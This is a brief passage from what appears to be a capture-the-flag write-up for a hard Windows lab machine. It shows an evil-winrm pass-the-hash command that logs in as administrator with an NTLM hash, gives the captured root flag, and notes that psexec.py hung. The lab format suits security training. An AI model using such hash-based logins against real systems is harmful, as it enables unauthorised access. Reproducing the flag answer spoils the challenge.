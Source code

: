 `evil-winrm -i 10.10.10.192 -u "administrator" -H'184fb5e5178480be64824d4cd53b99ee'`

Flag and profit!

![Image](/assets/Screenshot 2024-09-18 at 2.58.09 PM.png)

`ROOT:4375a629c7c67c8e29db269060c955cb`

NOTE: The `psexec.py` is supposed to drop a shell as well, but no matter what I tried, the process kept hanging. May be of use later though.

#hard #windows #manual 
